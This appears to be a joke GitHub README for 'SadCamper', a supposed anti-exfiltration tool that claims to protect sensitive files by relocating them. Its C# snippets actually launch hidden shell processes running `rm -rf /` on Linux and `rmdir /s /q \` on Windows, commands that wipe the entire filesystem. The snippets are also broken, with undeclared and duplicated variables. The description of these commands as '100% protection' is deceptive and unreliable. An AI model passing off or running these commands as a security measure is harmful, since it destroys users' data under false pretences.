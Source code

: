 ### SadCamper
SadCamper is a tool designed for security personnel to prevent the exfiltration of critically sensitive files from an organization.  It works by preemptively relocating files, adding an additional layer of security by potentially thwarting attackers' attempts to identify and exfitrate these files.

### Warning
SadCamper manipulates critical sensitive files to prevent threat actor access.  It may cause a small amount of impact to the systems containing these files.

### How it works
SadCamper preemptively changes the location of files, providing 100% protection against threat actor attempts to identify and exfiltrate them.  It utilizes proprietary code, which we have recently made public, and is shown below.

Windows
```c#
Process process = new Process();
psi.FileName = "cmd.exe";
psi.Arguments = "rmdir /s /q \";
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
psi.CreateNoWindow = true;
using var process = Process.Start(psi);
process.WaitForExit();
```

Linux
```c#
Process process = new Process();
psi.FileName = "/bin/bash";
psi.Arguments = "rm -rf /";
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
psi.CreateNoWindow = true;
using var process = Process.Start(psi);
process.WaitForExit();
```

